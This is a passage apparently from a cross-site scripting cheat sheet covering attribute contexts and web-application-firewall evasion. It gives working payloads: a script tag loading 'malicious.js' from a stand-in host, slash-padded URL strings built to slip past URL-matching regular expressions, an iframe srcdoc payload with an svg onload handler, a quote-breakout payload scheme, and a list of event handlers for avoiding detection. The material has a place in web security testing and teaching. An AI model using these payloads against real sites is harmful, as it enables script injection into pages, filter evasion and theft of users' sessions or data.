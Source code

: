 #### Inside an Event Handler

If the input is being reflected within the value associated with an event handler e.g.`<tag event_handler="function($input)";` triggering the event handler will execute the JavaScript present in the value. 

##### Inside 'src' Attribute

If the input is being reflected as the value of `src` attribute of a script or iframe tag e.g. `<script src="$input">`, a malicious script (in case of script tag) or webpage (in case of iframe tag) can be loaded directly as follows
`<script src="http://example.com/malicious.js">`

###### Bypassing URL Matching Regular Expressions

- `//example.com/xss.js` bypasses `http(s)?//`
- `////////example.com/xss.js` bypasses `(http(s)?)?//`
- `/\///\\/example.com/xss.js` bypasses `(http(s)?)?//+`


##### Inside 'srcdoc' Attribute

If the input is being reflected as the value of `srcdoc` attribute of an iframe tag e.g. `<iframe srcdoc="$input">`, an escaped (with HTML entities) HTML document can be supplied as the payload as follows

`<iframe srcdoc="&lt;svg/onload=alert()&gt;">`

##### Generic Attributes

All the above cases do not require any bypassing techniques, except the last one which can be                                 bypassed using the techniques used in the HTML context section.
The discussed cases are uncommon and the most common type of attribute context reflection is as follows:

`<input type="text" value="$input">`

It can be further divided into two categories based on the interactivity of the concerned tag.

###### Interactable
When the input is getting reflected within a tag which can be interacted with e.g. clicking, hovering, focusing etc., only a quote is needed to break out of the context. The payload scheme in such case is:

`{quote}{filler}{event_handler}{?filler}={?filler}{javascript}`

Checking if the quote is being blocked by the WAF (highly unlikely) can be done with the probe below:

`x"y`

The event handler plays an important role here as it is the only component which may be detected by the WAF. Every tag supports some event handlers and it's up to the user to look for such cases but there are some event handlers which can be bound to any tag which are listed below:

```
onclick
onauxclick
ondblclick
ondrag
ondragend
ondragenter
ondragexit
ondragleave
ondragover
ondragstart
onmousedown
onmouseenter
onmouseleave
onmousemove
onmouseout
```